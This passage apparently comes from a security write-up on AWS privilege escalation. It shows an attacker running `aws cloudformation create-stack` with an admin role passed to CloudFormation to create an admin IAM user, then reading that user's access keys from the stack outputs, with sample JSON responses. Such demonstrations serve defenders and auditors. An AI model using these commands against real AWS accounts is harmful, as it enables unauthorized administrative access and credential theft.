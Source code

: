 ```json
}
```

The attacker issues the following command to create the stack and the associated AWS resources:

```bash
➜ aws cloudformation create-stack --stack-name privesc --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json --role arn:aws:iam::[REDACTED]:role/adminaccess --capabilities CAPABILITY_IAM --region us-west-2 --profile privesc
```

```json
{"StackId": "arn:aws:cloudformation:us-west-2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e"}
```

Afterwards, the attacker can read the outputs provided by CloudFormation to obtain the API keys associated with the new user:

```bash
➜ aws cloudformation describe-stacks --stack-name arn:aws:cloudformation:us-west-2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e --region us-west-2 --profile privesc
```

```json
{
    "Stacks": [
    {
        "StackId": "arn:aws:cloudformation:us-west-2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e",
        "DriftInformation": {
            "StackDriftStatus": "NOT_CHECKED"
        },
        "DeletionTime": "2019-09-10T19:21:14.658Z",
        "Tags": [],
        "Outputs": [
        {
            "Description": "Secret Key of Admin User",
            "OutputKey": "SecretKey",
            "OutputValue": "[REDACTED]"
        },
        {
            "Description": "Access Key ID of Admin User",
            "OutputKey": "AccessKey",
            "OutputValue": "[REDACTED]"
        }
        ],
        "RoleARN": "arn:aws:iam::[REDACTED]:role/adminaccess",
        "CreationTime": "2019-09-10T19:16:25.246Z",
        "Capabilities": [
        "CAPABILITY_IAM"
        ],
        "StackName": "privesc",
        "NotificationARNs": [],
        "StackStatus": "DELETE_COMPLETE",
        "DisableRollback": false,
        "RollbackConfiguration": {}
    }]
}
```
